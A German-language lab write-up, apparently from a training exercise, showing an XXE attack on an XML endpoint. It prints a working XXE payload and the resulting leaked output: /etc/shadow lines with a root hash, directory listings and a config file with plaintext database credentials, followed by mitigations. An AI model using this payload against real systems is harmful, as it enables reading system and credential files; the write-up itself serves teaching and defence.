


# 2600 Web Security: XML Path Traversal

## Vorgehen
- Die Website schickt die Eingaben als XML-Dokument an den Server


- Die Antwort beinhaltet das `query`-Objekt, das wir schicken
- Mit einer XXE-Attacke können wir versuchen, ein File vom System in den Request zu schreiben, das bei der Antwort vom Server mitgeschickt wird:
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE query [<!ENTITY getme SYSTEM "/etc/passwd">]>
<query>
	<result-limit>1</result-limit>
	<bell-name>bla</bell-name>
	<bell-description>&getme;</bell-description>
</query>
```
- Antwort:



- So haben wir den Inhalt von `/etc/passwd`. Genau gleich können wir die anderen Files auslesen
- `/etc/shadow`
```
root:$1$HwRrL3RY$9lRscANn8FK46LdzJEoa9.:15988:0:99999:7:::
daemon:*:13035:0:99999:7:::
bin:*:13035:0:99999:7:::
sys:*:13035:0:99999:7:::
sync:*:13035:0:99999:7:::
games:*:13035:0:99999:7:::
man:*:13035:0:99999:7:::
lp:*:13035:0:99999:7:::
mail:*:13035:0:99999:7:::
news:*:13035:0:99999:7:::
uucp:*:13035:0:99999:7:::
proxy:*:13035:0:99999:7:::
...
```
- Das Root-Verzeichnis `/`:
```
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
lib
lost+found
media
mnt
opt
proc
root
sbin
selinux
srv
sys
tmp
usr
var
vmlinuz
```
- Inhalt von `/opt/applic`
```
...
myca
mysql
mysql_old
mysql-5.0.51a
mysql-standard-4.0.26-pc-linux-gnu-i686
...
tomcat
vmware
```
- Inhalt von `/opt/applic/tomcat/webapps.properties/`
```
...
mail.properties
mysql.hr.properties
mysql.properties
...
```
- Inhalt von `/opt/applic/tomcat/webapps.properties/mysql.properties`
```
# MYSQL PROPERTIES - TIME IN SECONDS
################################################################
mysql.driver		= org.gjt.mm.mysql.Driver

mysql.username		= glockenemil
mysql.password		= Nt88,.po

mysql.bells.url		= jdbc:mysql://127.0.0.1:5506/glocken_emil?autoDeserialize=true
mysql.login.url		= jdbc:mysql://127.0.0.1:5506/login
mysql.session.url	= jdbc:mysql://127.0.0.1:5506/sessionservice

mysql.session.testquery	=
mysql.login.testquery	=
mysql.bells.testquery	=

mysql.connections.max               = 100 
mysql.connections.min               = 10 
mysql.connections.increaserate      = 2 
mysql.connections.timeout           = 120
mysql.connections.maxage            = 900


# LOGIN TABLE DEFS
#################################################################
mysql.tblLogin		= users

mysql.fldAdditionalTime	= additionaltime
mysql.fldReleaseTime	= releasetime
mysql.fldUsername	= username
mysql.fldTries		= tries
contactForm	= no
```
- So haben wir die Credentials vom SQL-Benutzer gefunden, womit der Tomcat connected: `glockenemil`, `Nt88,.po`

## Security Problem
- Der Server spielt hier XML-Generator: Er liest unsere DTD-Definition und sucht auf dem Filesystem nach dem Namen (z.B. `/etc/shadow`), was eigentlich eine DTD-Definition sein sollte. Das XML wird an uns zurück gegeben mit dem Inhalt der Datei
- Der Prozess des Webservers scheint Lesezugriff auf das gesamte System zu haben

## Mitigation
- Rechte des Server-Prozesses einschränken, dass er nur Lese-Zugriff auf das nötigste hat
- XML-Parser konfigurieren, dass nicht eine beliebige Datei, sondern nur valide XML-Schemata eingelesen wird
- z.B. mit einer WAF solche Entity Injections komplett heraus filtern / blockieren
